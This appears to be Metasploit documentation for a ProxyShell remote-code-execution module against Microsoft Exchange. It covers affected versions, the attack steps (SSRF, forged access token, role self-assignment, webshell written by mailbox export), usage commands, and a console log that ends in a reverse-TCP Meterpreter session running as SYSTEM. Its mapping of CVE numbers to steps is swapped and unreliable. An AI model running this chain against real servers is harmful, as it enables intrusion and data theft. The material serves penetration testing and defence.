 ## Vulnerable Application

This module exploits a vulnerability on Microsoft Exchange Server that allows an attacker to bypass the authentication
(CVE-2021-31207), impersonate an arbitrary user (CVE-2021-34523) and write an arbitrary file (CVE-2021-34473) to achieve
the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft Exchange Server.

This vulnerability affects:

  * Exchange 2013 CU23 < 15.0.1497.15
  * Exchange 2016 CU19 < 15.1.2176.12
  * Exchange 2016 CU20 < 15.1.2242.8
  * Exchange 2019 CU8 < 15.2.792.13
  * Exchange 2019 CU9 < 15.2.858.10

*Source: [Description of the security update for Microsoft Exchange Server 2019, 2016, and 2013: April 13, 2021 (KB5001779)][1]*

### Exploit Internals

At a high level, the steps the exploit takes are as follows:

1. Build a Common Access Token corresponding to a user with the "Mailbox Import Export" role
    1. If an email address is specified using the `EMAIL` datastore option, the exploit will attempt to use the owner
    1. If no email address is specified
        1. The exploit will leverage the SSRF to issue a reques to EWS and enumerate the email addresses
            * This technique was taken from [dmassland/proxyshell-poc](https://github.com/dmaasland/proxyshell-poc/blob/main/proxyshell-enumerate.py)
        1. The module will store the enumerated email addresses in a CSV file
        1. Each of the email addresses will be checked for the necessary role
    1. A common access token will be built using the verified user's SID
        * Email addresses are mapped to SIDs using a request to autodiscover and MAPI
1. A draft email is saved to the identified user's mailbox containing an encoded webshell embedded within an attachment
1. The `New-MailboxExportRequest` cmdlet is used to export the attachment and write the webshell to an accessible location
1. The exploit waits for the webshell to be written and uses it to execute OS commands
1. The webshell*, export request and draft email are all removed
    * *The webshell can only be remove automatically if the selected payload establishes a sessions (such as Meterpreter)


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/http/exchange_proxyshell_rce`
1. Do: `set RHOSTS [IP]`
1. Do: `run`

## Options

### EMAIL

A known email address for this organization. If specified, the user who owns the mailbox must either have the "Mailbox
Import Export" role already or have the necessary permissions to assign it to themselves. This would typically be some
sort of an administrative user. If this option is left blank, the module will enumerate all valid email addresses and
check each one for the necessary privileges.

### UseAlternatePath

Use the IIS root dir as alternate path. Default: `false`

## Advanced Options

### BackendServerName

Force the name of the backend Exchange server targeted. Default: Automatic

If not set, the automatic method will use an RPC call to detect the backend server FQDN. This is required because the
kerberos-authenticated SSRF can only be sent when the FQDN is known.

### ExchangeBasePath

The base path where Exchange is installed. Default: `C:\Program Files\Microsoft\Exchange Server\V15`

### ExchangeWritePath

The path where you want to write the backdoor. Default: `owa\auth`

You can for example, set it to: `ecp\auth`

### IISBasePath

The base path where IIS wwwroot directory is. Default: `C:\inetpub\wwwroot`

### IISWritePath

The path where you want to write the backdoor. Default: `aspnet_client`

### MapiClientApp

This is MAPI client version sent in the request.

### MaxBackendRetries

The maximum number of times to retry for targeting the backend server with the SSRF. This is useful in environments
where a Data Availability Group (DAG) is in place and causes requests to be sent to a random backend server.

## Scenarios

### Exchange 2016 CU 19 on Server 2016

```
msf6 > use exploit/windows/http/exchange_proxyshell_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > set RHOSTS 192.168.159.42
RHOSTS => 192.168.159.42
msf6 exploit(windows/http/exchange_proxyshell_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf6 exploit(windows/http/exchange_proxyshell_rce) > check
[+] 192.168.159.42:443 - The target is vulnerable.
msf6 exploit(windows/http/exchange_proxyshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Attempt to exploit for CVE-2021-34473
[*] Retrieving backend FQDN over RPC request
[*] Internal server name: win-bpid95acq7e.exchg.lan
[*] Enumerating valid email addresses and searching for one that either has the 'Mailbox Import Export' role or can self-assign it
[*] Enumerated 2 email addresses
[*] Saved mailbox and email address data to: /home/smcintyre/.msf4/loot/20210827174927_default_192.168.159.42_ad.exchange.mail_205456.txt
[+] Successfully assigned the 'Mailbox Import Export' role
[+] Proceeding with SID: S-1-5-21-2800676829-2777257591-1686523126-1000 (smcintyre@exchg.lan)
[*] Saving a draft email with subject 'ie1Y1uNnLfxL' containing the attachment with the embedded webshell
[*] Writing to: C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\n7AB4NuOznEA.aspx
[*] Waiting for the export request to complete...
[+] The mailbox export request has completed
[*] Triggering the payload
[*] Sending stage (200262 bytes) to 192.168.159.42
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\n7AB4NuOznEA.aspx
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.42:7149) at 2021-08-27 17:49:40 -0400
[*] Removing the mailbox export request
[*] Removing the draft email

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
Logged On Users : 8
Meterpreter     : x64/windows
meterpreter >
```

[1]: https://support.microsoft.com/en-us/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-april-13-2021-kb5001779-8e08f3b3-fc7b-466c-bbb7-5d5aa16ef064

